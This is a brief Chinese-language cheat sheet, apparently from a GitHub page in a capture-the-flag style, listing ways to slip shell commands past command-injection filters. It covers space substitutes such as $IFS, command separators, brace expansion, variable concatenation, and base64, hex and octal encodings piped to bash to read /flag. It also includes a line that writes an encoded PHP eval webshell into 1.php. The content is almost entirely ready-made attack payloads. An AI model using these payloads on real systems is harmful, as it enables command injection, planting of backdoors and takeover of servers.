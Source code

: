 # linux常见绕过姿势
### 绕过关键字过滤

```bash
fla$*g ==> flag
```



### 空格过滤

    < 、<>、%20(space)、%09(tab)、$IFS$9、 ${IFS}、$IFS、$IFS$一位数字

### 命令分隔符

    linux中：%0a(换行) 、%0d（回车） 、; 、& 、| 、&&、||
    
    windows中：%0a、&、|、%1a（一个神奇的角色，作为.bat文件中的命令分隔符，SUB 在文本文件中表示文件结果）

### 花括号

    {cat,flag} 逗号代替空格

### 黑名单绕过

拼接绕过:$a=l;$b=s;$a$b

编码绕过
base64：
echo MTIzCg==|base64 -d 其将会打印123
echo "Y2F0IC9mbGFn"|base64-d|bash ==>cat /flag

hex:
echo "636174202f666c6167" | xxd -r -p|bash ==>cat /flag

oct：
$(printf "\154\163") ==>ls
$(printf "\x63\x61\x74\x20\x2f\x66\x6c\x61\x67") ==>cat /flag
{printf,"\x63\x61\x74\x20\x2f\x66\x6c\x61\x67"}|\$0 ==>cat /flag
#可以通过这样来写webshell,内容为<?php @eval($_POST['c']);?>
${printf,"\74\77\160\150\160\40\100\145\166\141\154\50\44\137\120\117\123\124\133\47\143\47\135\51\73\77\76"} >> 1.php

单引号和双引号绕过
比如：ca' 't flag 或ca" "t flag
反斜杠绕过
比如：ca\t fl\ag
### 长度限制

长度限制可以用文件构造的方式来绕过。
linux下可以用 1>a创建文件名为a的空文件
ls -t>test则会将目录按时间排序后写进test文件中
sh命令可以从一个文件中读取命令来执行

### 内联执行

命令替代，大部分Unix shell以及编程语言如Perl、PHP以及Ruby等都以成对的重音符(反引号)作指令替代，意思是以某一个指令的输出结果作为另一个指令的输入项。类似的还有$(command).

    cat$IFS`ls`
    
    cat$IFS$(ls)

